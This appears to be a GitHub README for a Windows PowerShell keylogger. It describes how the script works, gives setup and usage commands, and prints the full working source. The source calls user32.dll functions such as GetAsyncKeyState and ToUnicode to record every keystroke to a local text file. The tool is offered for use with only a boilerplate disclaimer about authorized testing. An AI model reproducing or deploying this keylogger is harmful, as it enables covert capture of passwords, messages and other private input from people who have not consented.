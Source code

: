 # keylogger
A Windows Powershell program that records keystrokes made on a computer keyboard and a great OSINT tool.

## How the script works?

- The script first sets up a path to a log file where the keystrokes will be recorded.
- It then defines a set of Windows API functions using C# code. These functions will be used to retrieve the keystrokes.
- The script enters a loop where it continuously checks for the existence of the log file.
- Inside the loop, it waits for 40 milliseconds and then loops through all the possible ASCII codes for keyboard keys.
- For each key, it uses the Windows API functions to check if it is currently being pressed.
- If it is, it maps the key to a virtual key code and retrieves the state of the keyboard.
- Finally, it uses the ToUnicode Windows API function to convert the key code into a character and writes it to the log file.

## Preparation

To run this PowerShell script on Windows 11, you need to have PowerShell installed on your system.
PowerShell is included by default in Windows 11, so you should not need to install anything extra.
However, depending on your system settings, you may need to enable PowerShell scripts to run by setting the execution policy to allow local scripts to run.

You can do this by opening PowerShell as an administrator and running the command:
```powershell
Set-ExecutionPolicy RemoteSigned
```

This will allow you to run locally created PowerShell scripts.

## Usage

```powershell
PS C:\> .\Keylogger.ps1
```

## Example script

```powershell
$path = "C:\temp\keylogger.txt"


if ((Test-Path $path) -eq $false) {New-Item $path}

    $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
public static extern short GetAsyncKeyState(int virtualKeyCode);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@

    
    $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru
    

    try {
        
        while ((Test-Path $path) -ne $false){

           

            Start-Sleep -Milliseconds 40

            
            for ($ascii = 9; $ascii -le 254; $ascii++) {
                
                $state = $API::GetAsyncKeyState($ascii)

                
                if ($state -eq -32767) {
                    $null = [console]::CapsLock

                    
                    $virtualKey = $API::MapVirtualKey($ascii, 3)

                    
                    $kbstate = New-Object -TypeName Byte[] -ArgumentList 256
                    $checkkbstate = $API::GetKeyboardState($kbstate)

                    
                    $mychar = New-Object -TypeName System.Text.StringBuilder

                    
                    $success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)

                    if ($success -and (Test-Path $path) -eq $true) {
                       
                        [System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode)
                    }
                }
            }
        }
    } 
     finally {exit}
```

## Disclaimer
"The scripts in this repository are intended for authorized security testing and/or educational purposes only. Unauthorized access to computer systems or networks is illegal. These scripts are provided "AS IS," without warranty of any kind. The authors of these scripts shall not be held liable for any damages arising from the use of this code. Use of these scripts for any malicious or illegal activities is strictly prohibited. The authors of these scripts assume no liability for any misuse of these scripts by third parties. By using these scripts, you agree to these terms and conditions."

## License Information

This library is released under the [Creative Commons ShareAlike 4.0 International license](https://creativecommons.org/licenses/by-sa/4.0/). You are welcome to use this library for commercial purposes. For attribution, we ask that when you begin to use our code, you email us with a link to the product being created and/or sold. We want bragging rights that we helped (in a very small part) to create your 9th world wonder. We would like the opportunity to feature your work on our homepage.
